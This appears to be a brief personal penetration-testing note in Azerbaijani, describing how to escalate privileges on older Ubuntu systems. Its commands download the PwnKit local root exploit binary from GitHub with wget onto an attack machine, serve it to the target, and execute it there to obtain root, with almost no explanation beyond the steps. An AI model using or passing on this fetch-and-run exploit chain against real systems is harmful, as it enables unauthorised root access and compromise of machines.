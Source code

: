 # eger ubuntu 20 den asaqidirsa
   # oz atack masinimizda
     wget https://github.com/ly4k/PwnKit/raw/main/PwnKit
  # daha sonra server qaldirib yukledikden sonra 
      ./PwnKit
  # artiq root
